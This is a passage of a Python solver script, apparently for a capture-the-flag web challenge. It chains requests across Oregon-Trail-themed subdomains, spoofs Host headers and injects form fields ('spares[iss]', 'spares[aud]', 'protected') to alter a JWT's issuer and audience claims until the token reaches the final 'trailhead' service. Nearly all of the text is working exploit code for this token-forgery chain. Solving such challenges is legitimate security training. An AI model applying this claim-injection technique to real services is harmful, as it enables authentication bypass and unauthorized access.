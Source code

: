 ```python:solver.py

token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After General Store (1st)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])

r = requests.get(
    URL + "callback",
    headers={"Host": f"charterauthority.{HOST}"},
    params={"service": "general-store", "token": token},
)
token = re.findall(r'<a href="//banditnegotiation.[^/]+/enter\?jwt=(.+)">', r.text)[0]


# Wagon Repair (2nd time)

r = requests.post(
    URL + "submit",
    headers={"Host": f"wagonrepair.{HOST}"},
    data={
        "jwt": token,
        "spares[dysentery]": "",
        "spares[iss]": "charter-authority",
        "spares[aud]": "general-store",
    },
    allow_redirects=False,
)
token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After Wagon (2nd)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


# General Store (2nd time)

s = requests.session()
s.cookies["auth_token"] = token
r = s.post(
    URL,
    headers={
        "Host": f"generalstore.{HOST}",
    },
    data={
        "jwt": token,
        "iss": "charter-authority",
        "aud": "trailhead",
        "protected": "true",
    },
    allow_redirects=False,
)

token = r.headers["Location"].split("=")[-1]
if not REMOTE:
    print("After General Store (2nd)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


# Trailhead

webbrowser.open(f"http://trailhead.{HOST}/go?jwt=" + token)
```